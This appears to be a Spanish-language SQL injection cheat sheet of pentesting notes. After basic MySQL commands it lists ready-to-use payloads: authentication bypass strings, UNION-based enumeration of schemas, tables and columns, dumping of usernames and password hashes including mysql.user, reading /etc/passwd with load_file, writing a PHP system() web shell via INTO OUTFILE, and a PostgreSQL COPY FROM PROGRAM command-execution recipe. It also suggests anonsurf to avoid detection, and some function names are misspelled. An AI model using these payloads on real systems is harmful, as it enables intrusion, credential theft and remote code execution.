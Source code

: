 ```yaml
---
title: SQL Injection
published: true
---
```



* MariaDb sql:
<br>
<p>		* Use <font color="lime">anonsruf </font>para no ser detectado</p>
<p>	    * Mire los valores de símbolos en hexadecimal con <font color="lime">man ascii</font></p>
<p> 	* Mas información de sql en cuanto a código respecta <a href="https://portswigger.net/web-security/sql-injection/cheat-sheet"> aquí </a></p>
<p> 	* Mas laboratorios de pentesting : <a href="https://portswigger.net/web-security/all-labs">aqui</a></p>
<br>

```python

mysql -u{useraname} -p{password} # Conectar a la base de datos.

create database {DATABASE NAME}; # Crea una base de datos.

drop database {DATABASE NAME}; # ELimina una base de datos.

create table users(id int auto_increment PRIMARY KEY, username varchar(32), password varchar(32), vip varchar(32)); # Creacion de tabla.

drop table {TABLE NAME}; # Elimina una tabla.

show databases; # Muestra la base de datos actuales.

use [database_name]; # Usa la base de datos seleccionada.

show tables; # Muestra las tablas de la base de datos.

describe [table_name]; # Muestra la descripcion de una tabla.

select * from [table_name]; # Muestra todo el contenido de una tabla.

insert into users(username, password, vip) values("admin", "adminpass$!-?", "No aplica"); # Insertar valores en una tabla creada.

where = done.
select = selección.
from = de.

	* SQL INJECTION

'or 1 = 1- --

'or 1 = 1#

select * from users where username='admin'or 1=1;-- -; # Listar todos los datos de una tabla.

select * from users where username='admin'order by 5; # Enumerar la cantidad de columnas en una tabla, en este caso el tope era 4 es decir que dara un fallo.

select * from users where username='admin'union select version(),database(),user(),NULL; # Muestra la version,nombre BD, usuario, NULL 'nada'.

select * from users where username='admin'union select load_file('/etc/pass'),NULL,NULL; # Carga el archivo /etc/passwd para poder verlo.

@@version # alternativas a version().

select username from users where username='admin' union select scheme_name from information_schema.schemata; # Observa toda las bases de datos.

select * from users union select 1,2,3,group_contac(schema_name) from information_schema.schemata; # Muestra las bases de datos dentro de la misma cadena es decir, en caso dado que la pagina no le represente todas las bases de datos, esta es una alternativa.

select * from users union select 1,2,3,schema_name from information_schema.schemata limit 1,1; # Otra alternativa de group_contact() para mostrar los datos uno por uno.

select id, username from users union select NULL,table_name from information_schema.tables; #Lista todas las tablas de todas las bases de datos.

select id, username from users union select NULL,table_name from information_schema.tables where table_schema='{BASE DE DATOS}' # Enumera las tablas de una base de datos dada.

select * from users union select NULL,NULL,NULL,column_name from information_schema.columns where table_schema='{BASE DE DATOS}' and table_name='{TABLE NAME}' # Enumera las columnas de una tabla dada.

select username from users union select group_concat(password) from users; # Mira el contenido de una columna.

select username from users union select group_concat(username,':',password, ' -> '); # Para verlos mas ordenado.

select username from users union select group_concat(username,0x3A,password); # Alternativa por si no deja incrustar string, se le incrusta hexadecimal.

select * from users union select NULL,NULL,NULL,group_concat(username,0x3a,password) from practiqueSql.users; # Muestra el contenido de una tabla dada de una base de datos dada.

select * from users union select NULL,NULL,"<?php system('whoami');?>",NULL into outfile "/var/www/html" # Escribir un texto en un archivo.

select * from users union select NULL,NULL,group_concat(User,0x3a,Password) from mysql.user-- - #Enumera las credenciales

```

<br>
<center># PostgreSql RCE 9.3</center>

1. Eliminación de tabla en el caso de que sea existente.

```sql
DROP TABLE IF EXIST cmd_exec;
```

2. Creación de la tabla para la inyección de comando arbitrarios.

```sql
 CREATE TABLE cmd_exec(cmd_output text);
```

3. Inyección de comandos

```sql
 COPY cmd_exec from PROGRAM 'whoami';
```
